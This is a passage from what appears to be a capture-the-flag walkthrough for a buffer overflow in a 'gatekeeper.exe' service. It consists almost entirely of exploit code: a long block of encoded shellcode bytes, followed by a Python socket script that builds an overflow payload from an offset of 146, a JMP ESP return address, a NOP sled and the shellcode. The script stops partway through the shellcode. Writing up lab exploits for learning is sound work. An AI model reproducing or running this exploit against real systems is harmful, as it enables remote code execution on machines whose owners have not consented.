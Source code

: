 ```
shellcode += b"\x9f\xee\xb9\x1d\xbe\x6c\xc0\x71\x60\x4c\x0b"
shellcode += b"\x84\x61\x89\x76\x65\x33\x42\xfc\xd8\xa3\xe7"
shellcode += b"\x48\xe1\x48\xbb\x5d\x61\xad\x0c\x5f\x40\x60"
shellcode += b"\x06\x06\x42\x83\xcb\x32\xcb\x9b\x08\x7e\x85"
shellcode += b"\x10\xfa\xf4\x14\xf0\x32\xf4\xbb\x3d\xfb\x07"
shellcode += b"\xc5\x7a\x3c\xf8\xb0\x72\x3e\x85\xc2\x41\x3c"
shellcode += b"\x51\x46\x51\xe6\x12\xf0\xbd\x16\xf6\x67\x36"
shellcode += b"\x14\xb3\xec\x10\x39\x42\x20\x2b\x45\xcf\xc7"
shellcode += b"\xfb\xcf\x8b\xe3\xdf\x94\x48\x8d\x46\x71\x3e"
shellcode += b"\xb2\x98\xda\x9f\x16\xd3\xf7\xf4\x2a\xbe\x9f"
shellcode += b"\x39\x07\x40\x60\x56\x10\x33\x52\xf9\x8a\xdb"
shellcode += b"\xde\x72\x15\x1c\x20\xa9\xe1\xb2\xdf\x52\x12"
shellcode += b"\x9b\x1b\x06\x42\xb3\x8a\x27\x09\x43\x32\xf2"
shellcode += b"\x9e\x13\x9c\xad\x5e\xc3\x5c\x1e\x37\x09\x53"
shellcode += b"\x41\x27\x32\xb9\xea\xc2\xc9\x2a\xd5\xbb\x66"
shellcode += b"\x27\xbd\xb9\x88\x39\x85\x37\x6e\x53\xe9\x11"
shellcode += b"\x39\xcc\x90\x3b\xb1\x6d\x5c\x96\xbc\xae\xd6"
shellcode += b"\x15\x41\x60\x1f\x53\x51\x15\xef\x2e\x0b\xb0"
shellcode += b"\xf0\x84\x23\x5e\x62\x43\xb3\x29\x9f\xdc\xe4"
shellcode += b"\x7e\x51\x15\x60\x93\xc8\x8f\x96\x6e\x8c\xe8"
shellcode += b"\x12\xb5\x6d\xf6\x9b\x38\xc9\xdc\x8b\x84\xd2"
shellcode += b"\x58\xff\x58\x85\x36\xa9\x1e\x7f\xf9\x03\xc9"
shellcode += b"\x2c\x53\xc3\x8c\x1e\x64\x95\x90\x4a\x12\x79"
shellcode += b"\x20\x23\x63\x86\x8d\xa3\x63\xff\xf3\x53\x8b"
shellcode += b"\x2a\xb0\x74\x6e\xfe\xcd\x1c\x37\x6b\x6c\x41"
shellcode += b"\xc8\x46\xb3\x7c\x4b\x62\x4c\x7b\x53\x07\x49"
shellcode += b"\xc7\xd3\xf4\x23\x58\xb6\xfa\x90\x59\x93"
```

**Copy and paste those shellcodes to our python script:**
```py
#!/usr/bin/env python3

import socket

ip = '192.168.183.144' # Your Windows VM IP
port = 31337 # The gatekeeper.exe listening port

# Bad characters = \x00, \x0a
# JMP ESP = 080414C3
offset = 146
payload = b'A' * offset + b'\xC3\x14\x04\x08'
nop = b'\x90' * 32
shellcode =  b""
shellcode += b"\xba\x7d\x49\x17\x10\xdb\xd8\xd9\x74\x24\xf4"
shellcode += b"\x58\x29\xc9\xb1\x52\x31\x50\x12\x83\xc0\x04"
shellcode += b"\x03\x2d\x47\xf5\xe5\x31\xbf\x7b\x05\xc9\x40"
shellcode += b"\x1c\x8f\x2c\x71\x1c\xeb\x25\x22\xac\x7f\x6b"
shellcode += b"\xcf\x47\x2d\x9f\x44\x25\xfa\x90\xed\x80\xdc"
shellcode += b"\x9f\xee\xb9\x1d\xbe\x6c\xc0\x71\x60\x4c\x0b"
shellcode += b"\x84\x61\x89\x76\x65\x33\x42\xfc\xd8\xa3\xe7"
shellcode += b"\x48\xe1\x48\xbb\x5d\x61\xad\x0c\x5f\x40\x60"
shellcode += b"\x06\x06\x42\x83\xcb\x32\xcb\x9b\x08\x7e\x85"
shellcode += b"\x10\xfa\xf4\x14\xf0\x32\xf4\xbb\x3d\xfb\x07"
shellcode += b"\xc5\x7a\x3c\xf8\xb0\x72\x3e\x85\xc2\x41\x3c"
shellcode += b"\x51\x46\x51\xe6\x12\xf0\xbd\x16\xf6\x67\x36"
shellcode += b"\x14\xb3\xec\x10\x39\x42\x20\x2b\x45\xcf\xc7"
shellcode += b"\xfb\xcf\x8b\xe3\xdf\x94\x48\x8d\x46\x71\x3e"
shellcode += b"\xb2\x98\xda\x9f\x16\xd3\xf7\xf4\x2a\xbe\x9f"
shellcode += b"\x39\x07\x40\x60\x56\x10\x33\x52\xf9\x8a\xdb"
shellcode += b"\xde\x72\x15\x1c\x20\xa9\xe1\xb2\xdf\x52\x12"
shellcode += b"\x9b\x1b\x06\x42\xb3\x8a\x27\x09\x43\x32\xf2"
shellcode += b"\x9e\x13\x9c\xad\x5e\xc3\x5c\x1e\x37\x09\x53"
shellcode += b"\x41\x27\x32\xb9\xea\xc2\xc9\x2a\xd5\xbb\x66"
```